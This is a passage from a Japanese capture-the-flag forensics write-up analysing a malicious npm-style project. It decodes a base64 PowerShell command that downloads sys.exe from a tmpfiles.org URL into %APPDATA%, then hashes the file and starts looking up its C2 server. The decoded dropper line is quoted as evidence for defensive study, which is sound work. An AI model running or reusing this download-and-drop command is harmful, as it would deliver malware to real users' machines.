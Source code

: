 ```bash
    "child_process": "^1.0.2",
    "express": "^5.1.0",
    "path": "^0.12.7"
  }
}
$ echo 'JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=' | base64 -d
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```
`https://tmpfiles.org/dl/23860773/sys.exe`が答えとなる。  
次の質問は以下の通りであった。  
```
What is the SHA256 hash of the malware file?
Input:
```
先ほどのスクリプトから、被害者マシンの`%APPDATA%`にマルウェアがドロップされたことがわかる。  
Exterro FTK Imagerで確認すると、確かに`sys.exe`というマルウェアがあるのでこれを取り出して`sha256sum`すればよい。  
![ftk5.png](images/ftk5.png)  
```bash
$ sha256sum sys.exe
be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d  sys.exe
```
`be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`が得られた。  
次の質問は以下の通りであった。  
```
What is the IP address of the C2 server that the malware communicates with?
Input:
```
マルウェアのC2のIPアドレスを特定せよとのことのようだ。  
幸いマルウェアのSHA256があるので、検索すると「[Malware analysis sys.exe Malicious activity | ANY.RUN - Malware Sandbox Online](https://any.run/report/be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d/7463ff94-084c-4eae-a46b-3435593887e9)」がヒットする。  
Network activityの項目を見ると以下の通りであった。  